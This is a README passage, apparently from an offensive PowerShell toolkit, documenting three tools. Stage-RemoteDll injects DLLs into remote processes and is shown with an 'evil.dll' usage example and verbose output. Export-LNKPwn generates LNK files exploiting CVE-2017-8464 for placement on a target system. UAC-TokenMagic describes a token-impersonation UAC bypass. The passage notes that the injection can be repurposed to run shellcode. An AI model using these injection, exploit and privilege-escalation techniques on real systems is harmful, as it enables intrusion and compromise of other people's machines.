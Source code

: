 ### Stage-RemoteDll

Stage-RemoteDll is a small function to demonstrate various Dll injection techniques (NtCreateThreadEx / QueueUserAPC / SetThreadContext / SetWindowsHookEx) on 32 and 64 bit architectures. While I have done some input validation & cleanup, this is mostly POC code. Note also that these techniques can easily be repurposed to directly execute shellcode in the remote process.

```
# Boolean return value
C:\PS> $CallResult = Stage-RemoteDll -ProcID 1337 -DllPath .\Desktop\evil.dll -Mode NtCreateThreadEx
C:\PS> $CallResult
True

# Verbose output
C:\PS> Stage-RemoteDll -ProcID 1337 -DllPath .\Desktop\evil.dll -Mode QueueUserAPC -Verbose
VERBOSE: [+] Using QueueUserAPC
VERBOSE: [>] Opening notepad
VERBOSE: [>] Allocating DLL path memory
VERBOSE: [>] Writing DLL string
VERBOSE: [>] Locating LoadLibraryA
VERBOSE: [>] Getting process threads
VERBOSE: [>] Registering APC's with all threads
VERBOSE:   --> Success, registered APC
VERBOSE:   --> Success, registered APC
VERBOSE:   --> Success, registered APC
VERBOSE:   --> Success, registered APC
VERBOSE: [>] Cleaning up..
True
```

### Export-LNKPwn

Create LNK files to exploit CVE-2017-8464 aka LNK round 3 ;))!

Currently, it is recommended that you create the lnk locally and then move it to the target system because of .Net and PowerShell dependencies. Please refer to the function synopsis for further details.

```
C:\PS> Export-LNKPwn -LNKOutPath C:\Some\Local\Path.lnk -TargetCPLPath C:\Target\CPL\Path.cpl -Type SpecialFolderDataBlock
```

### UAC-TokenMagic

Based on James Forshaw's three part post on UAC, linked below, and possibly a technique used by the CIA!

Essentially we duplicate the token of an elevated process, lower it's mandatory integrity level, use it to create a new restricted token, impersonate it and use the Secondary Logon service to spawn a new process with High IL. Like playing hide-and-go-seek with tokens! ;))

This technique even bypasses the AlwaysNotify setting provided you supply it with a PID for an elevated process.
